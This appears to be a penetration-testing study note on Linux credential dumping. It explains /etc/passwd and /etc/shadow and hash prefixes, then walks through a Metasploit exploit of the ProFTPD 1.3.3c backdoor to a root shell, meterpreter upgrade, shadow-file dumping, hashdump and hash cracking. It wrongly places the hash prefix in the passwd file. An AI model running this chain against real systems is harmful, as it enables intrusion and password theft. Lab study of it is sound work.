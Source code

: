 ```yaml
---
description: Dumping Linux Password Hashes
---
```


# d - Linux Credential Dumping

## **Linux Password Hashes**

* Linux has multi-user support and as a result, multiple users can assess the system simultaneously. This can be seen as both an advantage and disadvantage from a security perspective, in that, multiple accounts offer multiple access vectors for attackers and therefore increase the overall risk of the server.
* All of the information for all accounts on Linux is stored in the passwd file located in: /etc/passwd
* We cannot view the passwords for the users in the passwd file because they are encrypted and the passwd file is readable by any user on the system.
* All the encrypted passwords for the users are stored in the shadow file. It can be found in the following directory: /etc/shadow
* The shadow file can only be accessed and read by the root account, this is a very important security feature as it prevents other accounts on the system from accessing the hashed passwords.
* The passwd file give us information in regards to the hashing algorithm that is being used and the password hash, this is very helpful as we are able to determine the type of hashing algorithm that is being used and its strength. We can determine this by looking at the number after the username encapsulated by the dollar symbol ($).

| Value | Hashing Algorithm |
| ----- | ----------------- |
| $1    | MD5               |
| $2    | Blowfish          |
| $5    | SHA-256           |
| $6    | SHA-512           |

## **Practical Demonstration**

1 - identify ip a target.

2 - `nmap -sV $ip`&#x20;

3 search ProFTPd 1.3.3c.

{% code overflow="wrap" %}
```bash
# service postgresql start && msfconsole
search ProFTPd
use /exploit/unix/ftp/proftpd_133c_backdoor
options
setg RHOSTS $ip
exploit
# we get a cmd shell session, which we can upgrade to a meterpreter session.
bin/bash -i
# we get root bash session.
ctrl+z  # minimize the session
sessions  # list all sessions.
sessions -u 1  # upgrade to a meterpreter session.
sessions 2  # switch to the new meterpreter session.
sysinfo
getuid  # uid is set to (uid=0) which is root.

# method 1
cat /etc/shadow # dumps the password hash.

# method 2
search hashdump # search the hashdump module in metasploit.
use post/linux/gather/hashdump
options
set SESSIONS 2
run  # dumps list of users and their hashes.

# cracking linux hashes
# make sure the workspace is working (db)
use auxiliary/analyse/crack/_linux
```
{% endcode %}



